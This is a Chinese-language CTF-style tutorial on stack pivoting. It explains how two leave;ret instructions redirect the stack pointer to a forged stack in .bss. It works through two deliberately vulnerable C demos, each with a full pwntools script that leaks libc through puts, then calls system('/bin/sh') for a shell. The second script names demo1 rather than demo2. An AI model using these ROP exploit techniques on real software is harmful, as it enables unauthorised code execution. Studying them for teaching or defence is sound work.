> 栈迁移的本质就是通过修改栈顶指针（esp或者rsp），欺骗程序，让它以为栈在另一块内存区域（比如.bss，堆区，其他栈空间），从而去那里执行我们伪造的ROP链

## 前提

当遇到以下几种情形，可以使用栈迁移

### 1.栈溢出可用的空间有限

这是最常见的情况，当发现程序存在栈溢出，但溢出的长度只能覆盖到返回地址，或者返回地址后只能再写几个字节时，传统的ROP链根本放不下

举例：

缓冲区大小是0x20，但read(0,buf,0x30)只能读48个字节

填满缓冲区加上覆盖ebp需要0x20+0x8=0x28（40）个字节

剩下只有8个字节的空间，刚好只能覆盖一个返回地址+额外参数，远远不够我们写入ROP链

- **解决思路：**
  利用仅剩的空间写入能够**修改栈指针**的指令（如 pop rsp; ret 或 leave; ret），将栈指针“拔”出来，指向一段广阔且你可控的内存（比如事先在 .bss 段写好的长篇 ROP 链）。

### 2.执行的ROP链特别长

有时溢出空间虽然不算太小（比如写得下几十个字节），但ROP链可能参数多，长度长

举例：

题目开启了Seccomp/沙箱限制了execve，无法直接system("/bin/sh")

必须构造ORW（Open，Read，Write）链

需要调用mprotect来修改某段内存的执行权限

- **解决思路：**
  当前的栈空间不够长，就利用前几个字节触发栈迁移，跳到空间充裕的 .bss 变量区或堆区，那里你可以放几百上千字节的 ROP 链。

### 3.需要规避ASLR

开启了ASLR，地址空间布局随机化，栈的地址每次都在变

举例：

必须在栈上进行精准的数据引用，但无法泄露栈基址，但是程序的.bss段或者.data段地址固定不变。

- **解决思路：**
  把栈直接迁移到你知道具体地址的 .bss 段上去。这样你就可以使用硬编码的绝对地址来引用 ROP 链中的变量和字符串，彻底摆脱对随机化栈地址的依赖。

## 原理

栈迁移的核心，在于两次leave；ret指令

leave指令即为mov esp；ebp        pop ebp

先将ebp赋给esp，此时ebp和esp指向同一个地址，可以将现在这个地址当做栈顶或者栈底，然后pop ebp，将栈顶的内容弹入ebp（相当于把ebp的内容赋给了ebp），

因为esp要时刻指向栈顶，既然栈顶的内容被弹走了，自然esp下移



ret的指令即为pop eip，也就是把栈顶的内容弹出给eip（即为下一条指令执行的地址）



栈迁移核心：

（对于main函数里的）首先通过栈溢出把ebp的内容改掉，修改为我们要迁移的那个地址，并且把返回地址填充为leave；ret的地址，因为我们需要两次leave；ret

执行第一个leave，此时mov esp;ebp让两个指针处于同一个位置，现在还是正常运行，接着执行pop ebp，这里就开始了，因为我们提前把ebp的内容修改成了我们要迁移的地址，因此执行了pop ebp，ebp里装的内容就是我们写好的地址，随后ebp就会弹到那个地址上，接着执行pop eip，也就是ret，而eip里装的又是我们写好的leave;ret的地址，所以eip成功被我们修改，也就是存储下一条指令的地址（leave;ret），就开始了第二轮的leave;ret，到了栈迁移的核心部分，mov esp;ebp，ebp赋给了esp，esp挪到ebp的位置，因为ebp已经修改成为了我们要迁移的地址，所以esp也一样，接着pop ebp，把栈顶内容弹出给ebp，然后esp指向下一个内存单元，此时我们只需要把下一个内存单元放入system函数的地址，这样的话，最后执行pop eip，就可以把system函数的地址直接传给eip，我们就可以成功getshell了，过程图如下：





### 总结

核心就是利用两次leave;ret，第一次leave;ret，将ebp指向我们指定的位置（也就是迁移后的地址），第二次esp也迁移到那个地址，然后pop ebp之后，esp也指向下一个内存单元（放着system函数的PLT地址），最终成功getshell

## 例题一分析

```c++
#include <stdio.h>
 
char buf1[0x100];
 
void main() {
 char buf2[0x40];
 puts("First: ");
 read(0, buf1, 0x100);
 puts("Second: ");
 read(0, buf2, 0x60);
 
}
// gcc -fno-stack-protector -no-pie -z lazy -o demo1 demo1.c
```

程序流程很好看出，有两个puts输出，第一次是往buf1里面第二次往buf2里边写入，可以看到第二次写入的时候，很明显存在栈溢出，但是溢出的字节只够写入0x18大小的字节（64位），如果要构造gadget泄露内存地址，最短的ROP链也需要0x20大小，不够



对于这种情况，就需要使用栈迁移了，来扩大溢出字节数的大小，使用两次leave;ret，通过图解来看leave前后的变化



这是64位程序，也就是我们可以先通过栈溢出漏洞把rbp的值改为一个已知地址，这样的话，执行完两次leave;ret，就可以劫持rsp寄存器到任意地址，此时rsp寄存器指向的地址即为新栈地址，随后在新地址布置好想要执行的rop gadget，那么溢出字节少的问题就可以解决了



可以看到，随着pop rbp之后，rbp指向了我们提供的假地址，然后rsp下移，正好指向leave的地址，随后通过ret，让栈顶内容赋给rip，成功开始第二轮leave，随后按照流程，一步步getshell

### 必要条件

1. 存在可以劫持程序流和控制rbp寄存器的漏洞
2. 攻击者可以确定准确某一块具有读写权限的地址
3. 在进行栈迁移前需要在这块地址上进行`rop gadget`布局

对于刚刚的题，保护情况



未开启PIE保护，地址不会随机化

即可以直接利用第二次写入存在的栈溢出漏洞覆盖rbp内容为fake_addr，rip则指向leave；ret的地址，随后返回主函数后采用ret2libc执行system("/bin/sh")来获取shell

首先利用第一次输入进行rop chain布局，并利用第二次栈溢出漏洞覆盖rbp为伪栈地址，劫持rip为leave;ret地址，内存变化如图，我们在第一次rop chain布局前面有一小段padding填充在前面，因为我们在栈迁移后，程序指令中所有对于栈的操作都是在伪栈中执行，而伪栈地址与got表地址相邻，填入这一小段padding的目的就是为了避免程序在对伪栈进行读写的时候造成内存数据段内关键信息被覆盖



在汇编中当我们要对局部变量进行操作时，一般都是用rbp栈底寄存器来定位，如下图所示。这一点在栈迁移中可以让我们构造出一个类似于链表的利用结构，每次布置rop chain时不断将rbp寄存器赋值为伪栈地址，然后跳转到主函数的写入函数处，因为局部变量寻址是通过rbp寄存器，所以我们可以不断进行rop chain的布局。 在第一次进行rop chain的布局中控制rbp寄存器指向新的伪栈地址，那么在返回主函数后执行read函数时，写入地址就是新的伪栈地址，这时只要利用栈溢出漏洞去构造ret2libc即可getshell。

### 脚本

```python
from pwn import *
 
p = process('./demo1')
libc = ELF('./demo1').libc
 
fake_stack = 0x601060
leave_ret = 0x40058E
puts_plt = 0x400430
puts_got = 0x601018
pop_rdi = 0x4005f3
read_text = 0x400572
 
payload1 = "a"*0x78+p64(fake_stack+0x408)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(read_text)
p.sendafter('First:', payload1)
payload2 = 'a'*0x40+p64(fake_stack+0x78)+p64(leave_ret)
p.sendafter('Second:', payload2)
 
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = puts_addr - libc.sym['puts']
system = libc_base+libc.sym['system']
sh = libc_base+libc.search('/bin/sh').next()
success(hex(libc_base))
 
payload3 = "a"*0x48+p64(pop_rdi)+p64(sh)+p64(system)
p.send(payload3)
p.interactive()
```

---

## 例题二分析

> 一般比赛通常只有一次写入的机会。。

```python
# include <stdio.h>
# include <string.h>
void main() {
 char buf[0x28];
 puts("Hello Hacker."); 
 
 read(0, buf, 0x40);
}
// gcc -fno-stack-protector -no-pie -z lazy -o demo2 demo2.c
```

与上一道题类似，没有开Canary和PIE保护，不同的是这题只有一次输入机会，并且溢出的字节只能覆盖到返回地址，结合之前的原理，首先在劫持`rsp`前需要进行`rop chain`布局，程序并没有一次可以往伪栈布局的机会，但是可以利用劫持程序流的方式来构造这一条件。 观察程序的汇编代码如下图所示，在对局部变量buf进行寻址时使用了`rbp`寄存器，那么我们可以利用这一点配合栈溢出漏洞来实现伪栈上的`rop`布局。

### 思路

利用栈溢出漏洞劫持rbp寄存器为伪栈地址，返回地址为0x40054b(图中主程序的输入函数)，即可在返回主程序后对伪栈进行rop chain的布局

对伪栈进行rop chain的布局，泄露LIBC地址并返回主函数

返回主函数后利用栈溢出漏洞配合栈迁移+ret2libc完成getshell




伪栈rop布局



第二次leave; ret指令依然来自主函数退栈时执行，在伪栈上布置好rop chain后程序执行退栈操作，此时rbp寄存器内保存fack_stack-0x30的地址即rop chain地址+0x8的位置处，rsp寄存器被劫持到伪栈上，此时的内存变化如下图所示



这里为什么是fake_stack-0x30的地址呢？因为在对局部变量buf进行寻址时使用到rbp寄存器，而本题中的buf地址来自[rbp-0x30]的地址，所以如果想要将rsp劫持到rop chain的位置，就需要对rbp寄存器赋值为fakc_stack-0x30，那么在执行第三次leave的时候，rsp寄存器就劫持到rop chain的地址处，此时的内存变化如下图所示





泄露完LIBC地址后，劫持程序流返回主函数，利用read函数对伪栈进行最后一次rop布局，需要注意此时的写入地址是fake_stack-0x30，所以在栈迁移时rbp寄存器的值为fake_stack-0x30-0x30-0x8的地址处，再执行一次leave; ret时即可将rsp寄存器劫持到ret2libc rop地址处。内存变化如下图所示




### 脚本

```python
from pwn import *
context.log_level = 'debug'
 
p = process('./demo1')
libc = ELF('./demo1').libc
 
read_text = 0x40054B
fake_rbp = 0x601500
pop_rdi = 0x4005d3 # pop rdi; ret;
puts_plt = 0x400430
puts_got = 0x601018
leave_ret = 0x400567
 
# gdb.attach(p, 'b *0x400567')
 
payload1 = 'a'*0x30+p64(fake_rbp)+p64(read_text)
p.sendafter("Hello Hacker.", payload1)
 
payload2 = p64(fake_rbp-0x30)+p64(pop_rdi)+p64(puts_got)+p64(puts_plt)+p64(read_text)+p64(0)+p64(fake_rbp-0x30)+p64(leave_ret)
p.send(payload2)
 
puts_addr = u64(p.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
libc_base = puts_addr - libc.sym['puts']
system = libc_base+libc.sym['system']
sh = libc_base+libc.search('/bin/sh').next()
success(hex(libc_base))
 
payload3 = p64(pop_rdi)+p64(sh)+p64(system)+p64(0)*3+p64(fake_rbp-0x68)+p64(leave_ret)
p.send(payload3)
p.interactive()
```

---

*本文若有疏漏或表述不当之处，恳请各位师傅批评指正。*
